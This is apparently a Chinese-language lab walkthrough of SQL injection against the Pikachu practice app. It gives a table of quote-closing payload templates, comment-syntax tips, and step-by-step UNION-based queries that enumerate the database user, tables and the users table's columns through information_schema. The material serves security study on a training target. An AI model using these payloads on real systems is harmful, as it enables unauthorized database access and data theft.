 3. 常见闭合方式速查表

| 闭合符       | 后端语句模板         | 典型 Payload 模板                        |
| :----------- | :------------------- | :--------------------------------------- |
| 无（数字型） | `WHERE id = $id`     | `?id=1 AND 1=2 UNION SELECT 1,2,3`       |
| `'`          | `WHERE id = '$id'`   | `?id=1' AND 1=2 UNION SELECT 1,2,3 --+`  |
| `"`          | `WHERE id = "$id"`   | `?id=1" AND 1=2 UNION SELECT 1,2,3 --+`  |
| `')`         | `WHERE id = ('$id')` | `?id=1') AND 1=2 UNION SELECT 1,2,3 --+` |
| `")`         | `WHERE id = ("$id")` | `?id=1") AND 1=2 UNION SELECT 1,2,3 --+` |

------

4. 小技巧

- 报错信息里多出来的 `'`、`)` 往往就是原句残留的符号，直接拿来用即可。
- `%23` (`#`)、`-- `、`--+` 都是单行注释，选哪个取决于后端过滤与空格编码。
- 如果 `ORDER BY` 报错，把闭合符和注释一起写：`?id=1' ORDER BY 3 --+`。

掌握“先探类型 → 再探符号 → 布尔验证”的流程，就能在实战中快速锁定闭合方式，为后续 UNION、盲注、报错等利用打好基础。

### 数字型注入(post)

> SQL注入中对于数字型注入不需要进行闭合，直接 and 1=1 和and 1=2 进行探测发现返回的响应页面不同（漏洞简单探测）。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc31.png)

![pkc32](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc32.png)

```sql
order by 探测列表数，表单列数为2
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc33.png)

```sql
union 查询 id=1 union select user(),database()#
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc34.png)

得到是pikachu用户，使用的数据库也是pikachu。

查询当前数据库中的表：

```sql
id=-1 union select user(),group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc35.png)

查询users表中的字段信息。

```sql
id=-1 union select user(),group_concat(column_name) from information_schema.columns where table_name='users'#
```

